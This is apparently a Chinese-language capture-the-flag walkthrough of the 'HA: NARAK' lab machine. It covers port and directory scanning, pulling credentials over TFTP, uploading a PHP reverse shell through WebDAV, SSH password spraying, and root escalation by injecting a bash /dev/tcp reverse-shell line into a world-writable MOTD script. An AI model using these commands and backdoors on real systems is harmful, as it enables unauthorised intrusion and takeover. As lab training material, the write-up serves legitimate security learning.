


## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT --min-rate 9999 -p- 10.10.10.5              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-29 12:24 CST
Nmap scan report for 10.10.10.5
Host is up (0.0016s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:3E:1D:52 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 11.83 seconds
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -A -p22,80 10.10.10.5
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-29 12:25 CST
Nmap scan report for 10.10.10.5
Host is up (0.00098s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 71:bd:59:2d:22:1e:b3:6b:4f:06:bf:83:e1:cc:92:43 (RSA)
|   256 f8:ec:45:84:7f:29:33:b2:8d:fc:7d:07:28:93:31:b0 (ECDSA)
|_  256 d0:94:36:96:04:80:33:10:40:68:32:21:cb:ae:68:f9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HA: NARAK
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 00:0C:29:3E:1D:52 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.98 ms 10.10.10.5

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.94 seconds

┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT --script=vuln -p22,80 10.10.10.5
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-29 12:25 CST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.5
Host is up (0.00094s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-internal-ip-disclosure: 
|_  Internal IP Leaked: 127.0.1.1
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.5
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://10.10.10.5:80/
|     Form id: 
|_    Form action: images/666.jpg
| http-enum: 
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /webdav/: Potentially interesting folder (401 Unauthorized)
MAC Address: 00:0C:29:3E:1D:52 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 57.21 seconds
```

## 目录扫描

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.5 -t 100 -x txt,zip,rar,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.5
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              zip,rar,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 2998]
/images               (Status: 301) [Size: 309] [--> http://10.10.10.5/images/]
/tips.txt             (Status: 200) [Size: 58]
/webdav               (Status: 401) [Size: 457]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1102800 / 1102805 (100.00%)
===============================================================
Finished
========================================================
```
这里最感兴趣的就是tips.txt了


根据提示去寻找creds.txt
但是经过了一番寻找，发现怎么样都找不到
（后来才知道是个坑

## 再次端口扫描

第一次端口扫描的时候没有进行udp扫描
此时补上，而且这个靶机不能使用-p-全端口扫描
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sU  10.10.10.5 -F
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-29 12:46 CST
Nmap scan report for 10.10.10.5
Host is up (0.00053s latency).
Not shown: 98 closed udp ports (port-unreach)
PORT   STATE         SERVICE
68/udp open|filtered dhcpc
69/udp open|filtered tftp
MAC Address: 00:0C:29:3E:1D:52 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 114.15 seconds
```
这里发现了一个tftp

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo tftp 10.10.10.5 69
tftp> ?
tftp-hpa 5.2
Commands may be abbreviated.  Commands are:

connect         connect to remote tftp
mode            set file transfer mode
put             send file
get             receive file
quit            exit tftp
verbose         toggle verbose mode
trace           toggle packet tracing
literal         toggle literal mode, ignore ':' in file name
status          show current status
binary          set mode to octet
ascii           set mode to netascii
rexmt           set per-packet transmission timeout
timeout         set total retransmission timeout
?               print help information
help            print help information
tftp> binary
tftp> status
Connected to 10.10.10.5.
Mode: octet Verbose: off Tracing: off Literal: off
Rexmt-interval: 5 seconds, Max-timeout: 25 seconds
tftp> get creds.txt
```

得到了creds.txt

## web渗透

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ cat creds.txt     
eWFtZG9vdDpTd2FyZw==
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace]
└─$ base64 -d creds.txt                                                          
yamdoot:Swarg      

```

### webdav渗透

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo davtest -url http://10.10.10.5/webdav -auth yamdoot:Swarg
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.10.5/webdav
********************************************************
NOTE    Random string for this session: C27fX0r60
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://10.10.10.5/webdav/DavTestDir_C27fX0r60
********************************************************
 Sending test files
PUT     jsp     SUCCEED:        http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.jsp
PUT     aspx    SUCCEED:        http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.aspx
PUT     jhtml   SUCCEED:        http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.jhtml
PUT     html    SUCCEED:        http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.html
PUT     cfm     SUCCEED:        http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.cfm
PUT     txt     SUCCEED:        http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.txt
PUT     asp     SUCCEED:        http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.asp
PUT     pl      SUCCEED:        http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.pl
PUT     php     SUCCEED:        http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.php
PUT     cgi     SUCCEED:        http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.cgi
PUT     shtml   SUCCEED:        http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.shtml
********************************************************
 Checking for test file execution
EXEC    jsp     FAIL
EXEC    aspx    FAIL
EXEC    jhtml   FAIL
EXEC    html    SUCCEED:        http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.html
EXEC    html    FAIL
EXEC    cfm     FAIL
EXEC    txt     SUCCEED:        http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.txt
EXEC    txt     FAIL
EXEC    asp     FAIL
EXEC    pl      FAIL
EXEC    php     SUCCEED:        http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.php
EXEC    php     FAIL
EXEC    cgi     FAIL
EXEC    shtml   FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.10.5/webdav/DavTestDir_C27fX0r60
PUT File: http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.jsp
PUT File: http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.aspx
PUT File: http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.jhtml
PUT File: http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.html
PUT File: http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.cfm
PUT File: http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.txt
PUT File: http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.asp
PUT File: http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.pl
PUT File: http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.php
PUT File: http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.cgi
PUT File: http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.shtml
Executes: http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.html
Executes: http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.txt
Executes: http://10.10.10.5/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.php


```
这里可以看到php是可以直接上传并成功执行的
那就直接上传php反弹shell

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo cadaver http://10.10.10.5/webdav
Authentication required for webdav on server `10.10.10.5':
Username: yamdoot
Password: 
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
Coll:   DavTestDir_C27fX0r60                   0  Feb 29  2024
dav:/webdav/> ?
Available commands: 
 ls         cd         pwd        put        get        mget       mput       
 edit       less       mkcol      cat        delete     rmcol      copy       
 move       lock       unlock     discover   steal      showlocks  version    
 checkin    checkout   uncheckout history    label      propnames  chexec     
 propget    propdel    propset    search     set        open       close      
 echo       quit       unset      lcd        lls        lpwd       logout     
 help       describe   about      
Aliases: rm=delete, mkdir=mkcol, mv=move, cp=copy, more=less, quit=exit=bye
dav:/webdav/> mput php-reverse-shell.php
Uploading php-reverse-shell.php to `/webdav/php-reverse-shell.php':
Progress: [=============================>] 100.0% of 5492 bytes succeeded.
dav:/webdav/> 
```

看到davtest的测试文件和刚刚上传的phpreverseshell
点击即可收到shell

## 提权

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nc -lvnp 1234                                                      
listening on [any] 1234 ...
connect to [10.10.10.3] from (UNKNOWN) [10.10.10.5] 44794
Linux ubuntu 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 05:48:34 up  1:33,  0 users,  load average: 0.00, 0.00, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ uname -a
Linux ubuntu 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

www-data是没有什么权限的
看一下用户
```bash
www-data@ubuntu:/$ cat /etc/passwd |grep home 
cat /etc/passwd |grep home
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
narak:x:1000:1000:narak,,,:/home/narak:/bin/bash
yamdoot:x:1001:1001:,,,:/home/yamdoot:/bin/bash
inferno:x:1002:1002:,,,:/home/inferno:/bin/bash
```

```bash
www-data@ubuntu:/$ find / -writable -type f -not -path '/proc/*' 2>/dev/null
find / -writable -type f -not -path '/proc/*' 2>/dev/null
/mnt/hell.sh
/sys/kernel/security/apparmor/.remove
/sys/kernel/security/apparmor/.replace
/sys/kernel/security/apparmor/.load
/sys/kernel/security/apparmor/.access
/sys/fs/cgroup/memory/cgroup.event_control
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/80-esm
/etc/update-motd.d/80-livepatch
/etc/update-motd.d/10-help-text
/etc/apache2/users.password
/var/www/webdav/php-reverse-shell.php
/var/www/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.jhtml
/var/www/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.shtml
/var/www/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.txt
/var/www/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.html
/var/www/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.cfm
/var/www/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.jsp
/var/www/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.aspx
/var/www/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.cgi
/var/www/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.pl
/var/www/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.asp
/var/www/webdav/DavTestDir_C27fX0r60/davtest_C27fX0r60.php
/var/www/html/index.html
/var/www/html/style.css
/var/www/html/images/9.jpg
/var/www/html/images/10.jpg
/var/www/html/images/7.jpg
/var/www/html/images/666.jpg
/var/www/html/images/13.jpg
/var/www/html/images/3.jpg
/var/www/html/images/19.jpg
/var/www/html/images/4.jpg
/var/www/html/images/14.jpg
/var/www/html/images/16.jpg
/var/www/html/images/5.jpg
/var/www/html/images/12.jpg
/var/www/html/images/18.jpg
/var/www/html/images/15.jpg
/var/www/html/images/8.jpg
/var/www/html/images/6.jpg
/var/www/html/images/1.jpg
/var/www/html/images/2.jpg
/var/www/html/images/11.jpg
/var/www/html/images/17.jpg
/var/www/html/font.css
/var/www/DavLock

```

很明显有一个特别的sh文件

```bash
www-data@ubuntu:/$ cat mnt/hell.sh
cat mnt/hell.sh
#!/bin/bash

echo"Highway to Hell";
--[----->+<]>---.+++++.+.+++++++++++.--.+++[->+++<]>++.++++++.--[--->+<]>--.-----.++++.
```
brainfuck解密
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ beef pass.bf                                                                                                   
chitragupt   
```
得到一个密码
那么直接用之前得到的用户去爆破

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ crackmapexec ssh 10.10.10.5  -u user -p pass 
SSH         10.10.10.5      22     10.10.10.5       [*] SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
SSH         10.10.10.5      22     10.10.10.5       [-] syslog:chitragupt Authentication failed.
SSH         10.10.10.5      22     10.10.10.5       [-] narak:chitragupt Authentication failed.
SSH         10.10.10.5      22     10.10.10.5       [-] yamdoot:chitragupt Authentication failed.
SSH         10.10.10.5      22     10.10.10.5       [+] inferno:chitragupt 
```
得到用户及密码

### 登录inferno用户

寻找属于root 其它用户有读写执行权限的文件
find / -type f -user root -perm -777 -exec ls -l '{}' \; 2>/dev/null

```bash
inferno@ubuntu:~$ find / -type f -user root -perm -777 -exec ls -l '{}' \; 2>/dev/null
-rwxrwxrwx 1 root root 124 Sep 22  2020 /mnt/hell.sh
-rwxrwxrwx 1 root root 299 May 18  2017 /etc/update-motd.d/91-release-upgrade
-rwxrwxrwx 1 root root 1220 Apr  9  2018 /etc/update-motd.d/00-header
-rwxrwxrwx 1 root root 4251 Apr  9  2018 /etc/update-motd.d/50-motd-news
-rwxrwxrwx 1 root root 604 Mar 21  2018 /etc/update-motd.d/80-esm
-rwxrwxrwx 1 root root 3017 Mar 21  2018 /etc/update-motd.d/80-livepatch
-rwxrwxrwx 1 root root 1157 Apr  9  2018 /etc/update-motd.d/10-help-text
```
可以发现motd都是可写的

那么就编辑00-header这个文件
因为他执行比较前置

```bash
inferno@ubuntu:/etc/update-motd.d$ nano 00-header 
inferno@ubuntu:/etc/update-motd.d$ cat 00-header 
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release

if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then
        # Fall back to using the very slow lsb_release utility
        DISTRIB_DESCRIPTION=$(lsb_release -s -d)
fi

printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"
bash -c '/bin/bash -i >& /dev/tcp/10.10.10.3/4444 0>&1'
```
这里要注意bash反弹shell要使用bash -c的方式
因为这是在脚本中
修改完脚本后nc监听退出shell重新ssh连接

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nc -lvnp 4444                   
[sudo] kali 的密码：
listening on [any] 4444 ...
connect to [10.10.10.3] from (UNKNOWN) [10.10.10.5] 60674
bash: cannot set terminal process group (10829): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/# whoami
whoami
root
root@ubuntu:/# ls /root
ls /root
root.txt
root@ubuntu:/# cat /root/root.txt
cat /root/root.txt
██████████████████████████████████████████████████████████████████████████████████████████
█░░░░░░██████████░░░░░░█░░░░░░░░░░░░░░█░░░░░░░░░░░░░░░░███░░░░░░░░░░░░░░█░░░░░░██░░░░░░░░█
█░░▄▀░░░░░░░░░░██░░▄▀░░█░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀▄▀▄▀▄▀▄▀▄▀░░███░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀░░██░░▄▀▄▀░░█
█░░▄▀▄▀▄▀▄▀▄▀░░██░░▄▀░░█░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░░░▄▀░░███░░▄▀░░░░░░▄▀░░█░░▄▀░░██░░▄▀░░░░█
█░░▄▀░░░░░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░████░░▄▀░░███░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░███
█░░▄▀░░██░░▄▀░░██░░▄▀░░█░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░░░▄▀░░███░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░▄▀░░███
█░░▄▀░░██░░▄▀░░██░░▄▀░░█░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀▄▀▄▀▄▀▄▀▄▀░░███░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀▄▀▄▀▄▀▄▀░░███
█░░▄▀░░██░░▄▀░░██░░▄▀░░█░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░▄▀░░░░███░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░▄▀░░███
█░░▄▀░░██░░▄▀░░░░░░▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░█████░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░███
█░░▄▀░░██░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░░░░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░░░█
█░░▄▀░░██░░░░░░░░░░▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀▄▀▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀▄▀░░█
█░░░░░░██████████░░░░░░█░░░░░░██░░░░░░█░░░░░░██░░░░░░░░░░█░░░░░░██░░░░░░█░░░░░░██░░░░░░░░█
██████████████████████████████████████████████████████████████████████████████████████████
                           
                                                                                    
Root Flag: {9440aee508b6215995219c58c8ba4b45}

!! Congrats you have finished this task !!

Contact us here:

Hacking Articles : https://twitter.com/hackinarticles

Jeenali Kothari  : https://www.linkedin.com/in/jeenali-kothari/

+-+-+-+-+-+ +-+-+-+-+-+-+-+
 |E|n|j|o|y| |H|A|C|K|I|N|G|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+
__________________________________

root@ubuntu:/#
```